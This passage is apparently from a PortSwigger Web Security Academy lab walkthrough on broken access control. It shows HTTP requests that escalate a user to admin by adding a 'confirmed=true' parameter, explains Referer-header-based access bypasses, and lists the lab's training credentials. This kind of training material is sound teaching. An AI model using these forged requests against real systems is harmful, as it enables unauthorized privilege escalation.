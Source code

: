 ```
POST /admin-roles HTTP/2
Host: 0a5400ae030f3fc180d8eeea005a00de.web-security-academy.net
Cookie: session=[wiener cookie]
Content-Length: 30
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36

username=wiener&action=upgrade
```

They give us a straight error that we are `Unauthorized`, Now try the other request that has a `confirmed` value in it.

```
POST /admin-roles HTTP/2
Host: 0a5400ae030f3fc180d8eeea005a00de.web-security-academy.net
Cookie: session=[wiener cookie]
Content-Length: 45
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36

action=upgrade&confirmed=true&username=wiener
```

Sending this request upgrade the `wiener` user to the `admin` role and now they have access to the `/admin` panel.

---
## Broken Referer-based access controls

Some websites based access controls on the `Referer` header submitted in the HTTP request. The `Referer` header is generally added to requests by browsers to indicate the page from which a request was initiated.

For example, suppose an application robustly enforces access control over the main administrative page at `/admin`, but for sub-pages such as `/admin/deleteUser` only inspects the `Referer` header. If the `Referer` header contains the main `/admin` URL, then the request is allowed.

In this situation, since the `Referer` header can be fully controlled by an attacker, they can forge direct requests to sensitive sub-pages, supplying the required `Referer` header, and so gain unauthorized access.

### LAB #13: Referer-based access controls

Lab URL: https://portswigger.net/web-security/access-control/lab-referer-based-access-control

**Objective**

Familiarize yourself with the admin panel and after that upgrade the low-privilege user to the admin role with his account.

**Credentials**
```
administrator:admin
wiener:peter
```
